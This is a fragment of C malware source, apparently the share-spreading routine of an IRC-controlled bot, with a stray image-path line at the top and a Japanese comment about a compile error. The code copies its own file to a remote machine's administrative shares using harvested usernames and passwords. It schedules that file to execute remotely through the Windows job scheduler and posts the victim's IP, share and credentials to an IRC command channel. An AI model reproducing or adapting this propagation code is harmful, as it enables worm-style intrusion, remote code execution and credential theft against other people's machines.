 	TIME_OF_DAY_INFO *tinfo=NULL;
	DWORD JobID;
	AT_INFO at_time;

	MultiByteToWideChar(CP_ACP,0,szServer,-1,wszNetbios,sizeof(wszNetbios));
	NET_API_STATUS nStatus=fNetRemoteTOD(wszNetbios,(LPBYTE *)&tinfo);
	if (nStatus == NERR_Success) {
		if (tinfo) {
			//_snprintf(buffer,sizeof(buffer),"[%s]: Connected to IP: %s (%s/%s).", exploit[exinfo.exploit].name,szServer, szUsername, szPassword);
			//addlog(buffer);

			int j = 0;;
			// int i = 0; として宣言されていたのでスコープを抜けたsnprintf(buffer,sizeof(buffer)にエラー発生
			for (i=0;i<(sizeof(sharepath) / sizeof(LPTSTR));i++) {
				sprintf(szRemoteFile,"%s\\%s\\%s",szServer,sharepath[i],filename);
				if ((j=CopyFile(filename,szRemoteFile,FALSE)) != 0)
					break;
				else if (GetLastError() == ERROR_ACCESS_DENIED) {
					if (_access(szRemoteFile,00) == 0) {
						szRemoteFile[strlen(szRemoteFile)-5] = (char)((rand()%10)+48);
						if ((j=CopyFile(filename,szRemoteFile,FALSE)) != 0)
							break;
					}
				}
			}
			if (!j) {
				fNetApiBufferFree(tinfo);
				fWNetCancelConnection2(szServer,CONNECT_UPDATE_PROFILE,TRUE);
				return FALSE;
			}
				
			DWORD jobtime=tinfo->tod_elapsedt / 60;
			jobtime-=tinfo->tod_timezone;
			jobtime+=2;
			jobtime%=(24*60);
			memset(&at_time,0,sizeof(AT_INFO));
			at_time.JobTime=jobtime*60000;
			MultiByteToWideChar(CP_ACP,0,filename,-1,wszFilename,sizeof(wszFilename));
			at_time.Command=wszFilename; 

			if ((nStatus=fNetScheduleJobAdd(wszNetbios,(BYTE *)&at_time,&JobID)) == NERR_Success) {
				_snprintf(buffer,sizeof(buffer),"[%s]: Exploiting IP: %s, Share: \\%s, User: (%s/%s)",exploit[exinfo.exploit].name,szServer,sharepath[i],szUsername,((strcmp(szPassword,"")==0)?("(no password)"):(szPassword)));
				if (!exinfo.silent) irc_privmsg(exinfo.sock, exinfo.chan, buffer, exinfo.notice);
				addlog(buffer);
				exploit[exinfo.exploit].stats++;
			}
		}
	}
	fWNetCancelConnection2(szServer,CONNECT_UPDATE_PROFILE,TRUE);
